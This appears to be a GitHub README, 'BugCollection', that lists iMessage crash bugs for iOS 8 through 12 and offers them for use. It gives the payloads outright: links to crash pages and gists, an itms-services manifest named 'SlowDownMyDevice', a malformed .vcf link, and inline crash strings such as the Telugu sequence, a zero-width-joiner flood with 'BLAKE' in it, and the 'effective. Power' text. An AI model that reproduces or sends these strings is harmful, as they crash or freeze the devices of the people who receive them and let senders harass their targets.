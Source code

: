 # BugCollection
All of the previous iMessage bugs I could find enjoy use responsibly 
THIS CONTAINS NOT 1 but 9 bugs THERE IS A BUG FOR EVERY FIRMWARE

Here Is The List


LATEST BUG
⚠️iOS 11.4.1-12.0 (GM)⚠️
https://gist.github.com/pwnsdx/ce64de2760996a6c432f06d612e33aea


⚠iOS 11.0-11.4⚠
itms-services://?action=download-manifest&url=https://raw.githubusercontent.com/CloudFTL/OnlineRespring/master/SlowDownMyDevice.plist

⚠iOS 11.2.6-11.4 b1⚠
https://www.vincedes3.com/0blackdotbug.html
SEND FIRST MESSAGE THEN SECOND ONE 

iOS 11.2.5
జ్ఞ ‌ా
WORKS ON ig and sc
must be on ios 11.3 to fix it and send it


iOS 11.2.2
https://bogdanz.me/work/diddu.html

iOS 10.3 
    ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍   BLAKE    ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍   BLAKE    ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍   BLAKE    ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍


iOS 10.2
http://preston159.com/downloads/%EF%BF%BD%EF%BF%BD%EF%B8%8F-0%EF%BF%BD%EF%BF%BD%20%EF%BF%BD%EF%BF%BD%EF%B8%8F-0%EF%BF%BD%EF%BF%BD%202%202.vcf

iOS 10.1.1 
🏳️‍0🌈

iOS 8 
effective.
Power
‎لُلُصّبُلُلصّبُررً ॣ ॣh ॣ ॣ
冗

Made By Cloud FTL ❤️


